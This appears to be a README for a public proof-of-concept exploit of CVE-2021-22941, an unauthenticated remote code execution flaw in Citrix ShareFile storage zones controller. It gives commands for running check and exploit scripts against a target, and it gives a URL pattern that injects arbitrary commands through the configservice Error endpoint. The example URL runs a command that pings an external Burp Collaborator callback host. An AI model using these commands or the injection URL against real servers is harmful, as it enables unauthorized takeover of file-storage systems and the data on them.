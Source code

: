 # CVE-2021-22941 Citrix Sharefile 
Improper Access Control in Citrix ShareFile storage zones controller before 5.11.20 may allow an unauthenticated attacker to remotely compromise the storage zones controller.
# Use
### Check vulnerable
```
python3 check.py -u http://127.0.0.1
```
### Exploit
```
python3 exploit.py -u http://127.0.0.1
```
RCE: Going to http://127.0.0.1/configservice/Home/Error?0={cmd}?1={agrs}

Example:
http://127.0.0.1/configservice/Home/Error?0=cmd?1=/c+ping+-n+5+ajxfqfcjf19sm5popcdh8au6sxynmc.burpcollaborator.net
# Reference
- https://codewhitesec.blogspot.com/2021/09/citrix-sharefile-rce-cve-2021-22941.html
- https://github.com/hoavt184/CVE-2021-22941